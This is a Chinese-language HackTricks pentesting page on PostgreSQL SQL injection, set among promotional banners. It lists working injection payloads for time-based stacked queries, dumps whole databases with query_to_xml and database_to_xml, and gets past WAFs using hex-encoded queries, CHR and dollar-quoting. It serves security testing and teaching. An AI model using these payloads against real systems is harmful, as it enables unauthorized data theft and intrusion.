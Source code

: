 # PostgreSQL 注入

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**本页面旨在解释不同的技巧，帮助你利用在 PostgreSQL 数据库中发现的 SQL 注入，并补充你可以在** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **上找到的技巧。**

## 网络交互 - 权限提升、端口扫描、NTLM 挑战响应泄露与外泄

**PostgreSQL 模块 `dblink`** 提供连接到其他 PostgreSQL 实例和执行 TCP 连接的能力。这些功能与 `COPY FROM` 功能结合，使得权限提升、端口扫描和 NTLM 挑战响应捕获等操作成为可能。有关执行这些攻击的详细方法，请查看如何 [执行这些攻击](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)。

### **使用 dblink 和大对象的外泄示例**

你可以 [**阅读这个示例**](dblink-lo\_import-data-exfiltration.md) 来查看一个 CTF 示例，**如何在大对象中加载数据，然后在函数 `dblink_connect` 的用户名中外泄大对象的内容**。

## PostgreSQL 攻击：读/写、RCE、权限提升

查看如何从 PostgreSQL 破坏主机并提升权限：

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF 绕过

### PostgreSQL 字符串函数

操纵字符串可以帮助你 **绕过 WAF 或其他限制**。\
[**在此页面**](https://www.postgresqltutorial.com/postgresql-string-functions/)**你可以找到一些有用的字符串函数。**

### 堆叠查询

请记住，PostgreSQL 支持堆叠查询，但如果在期望仅返回 1 个响应时返回 2 个响应，许多应用程序会抛出错误。但是，你仍然可以通过时间注入滥用堆叠查询：
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML技巧

**query\_to\_xml**

此函数将以XML格式返回所有数据，仅在一个文件中。如果您想在一行中转储大量数据，这是理想的：
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

此函数将整个数据库以 XML 格式转储为仅 1 行（如果数据库非常大，请小心，因为您可能会导致 DoS 或甚至影响您自己的客户端）：
```sql
SELECT database_to_xml(true,true,'');
```
### 字符串以十六进制表示

如果您可以运行 **查询** 并将其 **放在字符串中**（例如使用 **`query_to_xml`** 函数）。 **您可以使用 convert\_from 将字符串作为十六进制传递，从而以这种方式绕过过滤器：**

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### 禁止的引号

如果无法在有效负载中使用引号，可以通过 `CHR` 来绕过这一点，适用于基本子句（_字符连接仅适用于基本查询，如 SELECT、INSERT、DELETE 等。它不适用于所有 SQL 语句_）：
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
或者使用 `$`。这两个查询返回相同的结果：
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对**黑客职业**感兴趣，并且想要攻克不可攻克的目标 - **我们正在招聘！**（_需要流利的波兰语书写和口语能力_）。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
